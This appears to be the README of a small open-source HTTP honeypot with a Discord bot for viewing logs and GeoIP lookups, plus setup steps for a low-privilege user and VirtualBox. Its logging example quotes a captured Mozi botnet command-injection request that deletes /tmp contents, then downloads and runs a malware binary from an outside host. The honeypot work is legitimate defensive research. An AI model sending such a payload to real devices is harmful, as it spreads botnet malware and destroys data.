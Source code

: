 # Home Alone 
A simple and open source honeypot system for detecting and tracking live threats on the internet. 

	- Logging the requests being made, the addresses and the time.
	- Discord bot to interact with the honeypot and see whats happening in real time.
More features to come.

## Logging 
Requests to the server are logged by date/time (files created each time you start honeypot).
Here's an example of some of the malicious traffic I've seen: 

```
====================================================================
Connection at 4/19/2021 - 0:41:23 :
{"5.178.86.76" : "b'POST http://check.best-proxies.ru/azenv.php?s=VJVJVDNRIJOOVEVCPRNRPJUONNURYR HTTP/1.1\r\nHost: check.best-proxies.ru\r\nCookie: testCookie=true\r\nUser-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:81.0) Gecko/20100101 Firefox/81.0\r\nReferer: https://best-proxies.ru/\r\nContent-Type: application/x-www-form-urlencoded\r\nContent-Length: 13\r\nConnection: close\r\n\r\ntestPost=true\r\n\r\n'"
================================================================================
Connection at 4/19/2021 - 16:10:54 :
{"<redacted>" : "b'GET /shell?cd+/tmp;rm+-rf+*;wget+http://<redacte>:35094/Mozi.a;chmod+777+Mozi.a;/tmp/Mozi.a+jaws HTTP/1.1\r\nUser-Agent: Hello, world\r\nHost: <removed>\r\nAccept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8\r\nConnection: keep-alive\r\n\r\n'"
================================================================================
```

## Discord Bot 
Using the discord bot you can retrieve and view these logs in real time as well as do GeoIP lookups:
```
"{\n  \"ip\": \"211.40.129.246\",\n  \"city\": \"Seonghwan\",\n  \"region\": \"Chungcheongnam-do\",\n  \"country\": \"KR\",\n  \"loc\": \"36.9156,127.1314\",\n  \"org\": \"AS3786 LG DACOM Corporation\",\n  \"postal\": \"31014\",\n  \"timezone\": \"Asia/Seoul\",\n  \"readme\": \"https://ipinfo.io/missingauth\"\n}"

"{\n  \"ip\": \"46.43.113.22\",\n  \"hostname\": \"adsl-46.43.113.22.mada.ps\",\n  \"city\": \"Ramallah\",\n  \"region\": \"West Bank\",\n  \"country\": \"PS\",\n  \"loc\": \"31.8996,35.2042\",\n  \"org\": \"AS51407 Mada ALArab LTD\",\n  \"timezone\": \"Asia/Hebron\",\n  \"readme\": \"https://ipinfo.io/missingauth\"\n}"
```

**working on a feature for automated reporting to AbuseIPDB.com**

## Setup 
Because this needs  to be run on the public internet, you can try changing to port 8080, adding a lower privilege user an running from that account. By default this is setup to run to grab headers and requests of HTTP traffic on port 80 by default. 

Create a `.env` file in the `/HomeAlone/code/` Directory. This is where you should put:
```
HONEY=IP_ADDRESS_OF_HONEY_POT
HOSTN=HOST_NAME_OF_HONEY_POT_USER
TOKEN=DISCORD_BOT_API_TOKEN
ABUSE=FREE_ABUSE_IPDB_API_TOKEN 
``` 
Last one is optional (and not fully functional yet). 


## Adding Virtualization 
I'm working on ways to have this code run inside a VM instead, and perhaps use something like Cuckoo to automate the analysis of requests, and links the honeypot catches.

### Setting up Virtual Machine on Remote Server 
A more secure way to run this software would be to have the honeypot contained in a VM, run from a user with low privileges. Let's step through how we can set this up.

#### Adding a new User
Setting up a non-root user, in this case a user named `homealone` for running our sandboxed honeypot application. Run the following on the remote server (as root) to ensure this lower priveleged user will be able to user packet capture without being denied permissions. 
```
$ sudo groupadd homealone
$ sudo usermod -a -G pcap homealone
$ sudo chgrp pcap /usr/sbin/tcpdump
$ sudo setcap cap_net_raw,cap_net_admin=eip /usr/sbin/tcpdump
```
If this worked, you should be able to login as the `homealone` user and run the following as a check that you can run `tcpdump` as non-root user:
```
$ getcap /usr/sbin/tcpdump
/usr/sbin/tcpdump = cap_net_admin,cap_net_raw+eip
```

Then install VirtualBox on the server you intend to use for hosting the Honeypot. 

Once Installed, we need to setup our virtual machine. I'm going to setup Ubuntu 20.04. First we can use `VboxManager` to create the VM.
```bash
 VBoxManage createvm --name "Ubuntu 20.04" --ostype Ubuntu_64 --register
```





### Creating a discord bot 
Once you have the code running on your honeypot, you can go [here](https://discord.com/developers/applications) and add the DiscordBot add-on. 

The bot needs permissions for reading/writing into channels, adding reactions/emojis/embeds. 


### Contributing 
I would be happy to have more experienced people help me improve this project. If you want to 
make contributions feel free to make a pull request, and we can chat about how to make this more effective. 